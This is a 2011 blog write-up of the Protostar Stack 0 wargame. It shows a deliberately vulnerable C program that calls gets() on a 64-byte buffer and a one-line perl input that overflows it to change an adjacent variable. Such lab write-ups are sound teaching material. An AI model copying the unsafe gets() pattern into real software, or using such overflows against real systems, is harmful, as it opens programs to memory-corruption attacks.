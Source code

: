 ```yaml
---
title: "Exploit Exercises - Protostar Stack 0"
date: "2011-12-12T05:17:00-05:00"
comments: true
highlight: "true"
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
aliases:
 - "/2011/12/exploit-exercises-protostar-stack-0.html"
 - "/2011/12/12/exploit-exercises-protostar-stack-0"
 - "/2011/12/15/exploit-exercises-protostar-stack-0"
 - "/2011/12/22/exploit-exercises-protostar-stack-0"
---
```


I'm still working on the Nebula chain of challenges, however, I've been stuck on [Nebula 11](http://exploit-exercises.com/nebula/level11) for a bit now, as well as busy outside work. 

In the meantime, I still have other challenges that can be solved while I learn how to do more advanced ones. [Protostar](http://exploit-exercises.com/protostar) is another challenge made by [Exploit-Exercises](http://exploit-exercises.com), the same people who brought you [Nebula](http://exploit-exercises.com/nebula). 

<!-- more -->

[Protostar Stack 0](http://exploit-exercises.com/protostar/stack0) is a very easy challenge.  After doing a bunch of these challenges, and seeing nobody else doing them, I finally found someone, [Mito125](http://twitter.com/Mito125twit).  We've been chatting a little bit back and forth, and I like that we both seem to have different solutions to the problems.  His can be found [here](http://mitomito125.blogspot.com/2011/12/protostar-stack0-writeup.html).  Note that he blogs in Italian, but you can get the gist using Google Translate. 

First, we are given a vulnerable piece of C code:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
 volatile int modified;
 char buffer[64];

 modified = 0;
 gets(buffer);

 if(modified != 0) {
  printf("you have changed the 'modified' variable\n");
 } else {
  printf("Try again?\n");
 }
}
```

My solutions is very similar, however a little different only due to the language being used.  He uses python, and I use perl.  I one day should switch to python on the command line, but I'm set in my ways.  My solution is as follows:

```
user@protostar:/opt/protostar/bin$ perl -e 'print "A"x65' | ./stack0
you have changed the 'modified' variable
```

What is happening here, is that first the "modified" variable is put onto the stack (0).  It is followed by the assignment of the "buffer" when being read. Because of this, if you put more than the buffer can hold (64), it will overflow into previously assigned items in the stack.  So we essentially are overflowing and assigning "modified" to "A".
